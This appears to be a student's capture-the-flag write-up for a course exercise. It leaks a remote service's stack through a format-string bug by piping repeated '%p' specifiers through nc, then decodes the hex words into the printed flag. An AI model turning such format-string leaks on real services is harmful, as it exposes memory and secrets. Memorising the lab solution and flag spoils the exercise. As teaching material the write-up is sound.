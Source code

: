 # Exercise 1
## Jakob Udovic, s1049877

connect to service:  
`nc hackme.rded.nl 53133`

```
jakob@j-thinkpad-x1-carbon-2nd:~/Documents/git/HackingInC2020$ echo "$(perl -e 'print "%p "x95')" | nc hackme.rded.nl 53133
0x8080808080808080 0x7fffffffebb7 0 0xfefefefefefefeff 0x7ffff7ffc645 0x4869434354467b57 0x30456b6f75526c52 0x346659586f705766 0x58696f774f667339 0x4f4d687968326746 0x704f6e724d6e494d 0x42514e694b515553 0x5331454c704d4953 0x61546b5a5030377d 0x1 0x7ffff7ffc645 0x7ffff7ffe360 0 0x48 0x7fffffffeb70 0xe0bec4c970082cdf 0x7fffffffec98 0x5555555552f1 0x7fffffffec30 0x5555555552da 0x1 0x120 0x7ffff7ffe360 0xe0bec4c970082cdf 0x7fffffffec40 0x5555555552ff 0x1 0x7ffff7f851f5 0x7ffff7f851ce 0x7fffffffec80 0 0xf8 0x7ffff7ffdd48 0x5555555550be 0x1 0x7fffffffee82 0 0x7fffffffee8f 0x7fffffffeed1 0x7fffffffeedc 0x7fffffffef08 0x7fffffffef1c 0x7fffffffef28 0x7fffffffef2e 0x7fffffffef41 0x7fffffffef48 0x7fffffffef55 0x7fffffffef63 0x7fffffffef79 0x7fffffffef88 0x7fffffffefa5 0x7fffffffefb9 0x7fffffffefd6 0 0x21 0x7ffff7f68000 0x10 0x1f8bfbff 0x6 0x1000 0x11 0x64 0x3 0x555555554040 0x4 0x38 0x5 0xa 0x7 0x7ffff7f69000 0x8 0 0x9 0x5555555550a8 0xb 0xfffe 0xc 0xfffe 0xd 0xfffe 0xe 0xfffe 0x17 0 0x19 0x7fffffffee69 0x1a 0 0x1f 0x7fffffffefeb
```

The stack I obtained by giving it a bunch of %p:  
`$ echo "$(perl -e 'print "%p "x100')" | nc hackme.rded.nl 53133`

```
0x8080808080808080 0x7fffffffebb7 0 0xfefefefefefefeff 0x7ffff7ffc645 0x4869434354467b57 0x30456b6f75526c52 0x346659586f705766 0x58696f774f667339 0x4f4d687968326746 0x704f6e724d6e494d 0x42514e694b515553 0x5331454c704d4953 0x61546b5a5030377d 0x1 0x7ffff7ffc645 0x7ffff7ffe360 0 0x48 0x7fffffffeb70 0x998b3c4c409d24f6 0x7fffffffec98 0x5555555552f1 0x7fffffffec30 0x5555555552da 0x1 0x120 0x7ffff7ffe360 0x998b3c4c409d24f6 0x7fffffffec40 0x5555555552ff 0x1 0x7ffff7f851f5 0x7ffff7f851ce 0x7fffffffec80 0 0xf8 0x7ffff7ffdd48 0x5555555550be 0x1 0x7fffffffee81 0 0x7fffffffee8e 0x7fffffffeed0 0x7fffffffeedb 0x7fffffffef07 0x7fffffffef1b 0x7fffffffef27 0x7fffffffef2d 0x7fffffffef40 0x7fffffffef47 0x7fffffffef55 0x7fffffffef63 0x7fffffffef79 0x7fffffffef88 0x7fffffffefa5 0x7fffffffefb9 0x7fffffffefd6 0 0x21 0x7ffff7f68000 0x10 0x1f8bfbff 0x6 0x1000 0x11 0x64 0x3 0x555555554040 0x4 0x38 0x5 0xa 0x7 0x7ffff7f69000 0x8 0 0x9 0x5555555550a8 0xb 0xfffe 0xc 0xfffe 0xd 0xfffe 0xe 0xfffe 0x17 0 0x19 0x7fffffffee69 0x1a 0 0x1f 0x7fffffffefeb
```

After overthinking with addresses and their meaning I remembered the data can be stored in the stack too.  

Therefore anything not starting on 0x7fff... was interesting to me to convert from hex to ascii.  
I decided to trim the stack a bit, so I ignored the first 5 variables (registers) and focused on the rest.  
Quickly, I figured that the string starts on the 6th place, because I was looking for a value 4343. That represents CC in hex:  

```
Dec, Hex, Chr
67, 43, C
72, 48, H
```

These were the addresses I focused on:
```
$ ./attack.sh 
0x4869434354467b57
0x30456b6f75526c52
0x346659586f705766
0x58696f774f667339
0x4f4d687968326746
0x704f6e724d6e494d
0x42514e694b515553
0x5331454c704d4953
0x61546b5a5030377d
```

Then, I used a shell scrip that tried to run ./reverseaddr on every value, but then I quickly realized I do not need to do that.  
I used online [hex-to-ascii converter](https://www.rapidtables.com/convert/number/hex-to-ascii.html)

By entering
```
4869434354467b57 
30456b6f75526c52
346659586f705766
58696f774f667339
4f4d687968326746
704f6e724d6e494d
42514e694b515553
5331454c704d4953
61546b5a5030377d
```


```
HiCCTF{W0EkouRlR4fYXopWfXiowOfs9OMhyh2gFpOnrMnIMBQNiKQUSS1ELpMISaTkZP07}
```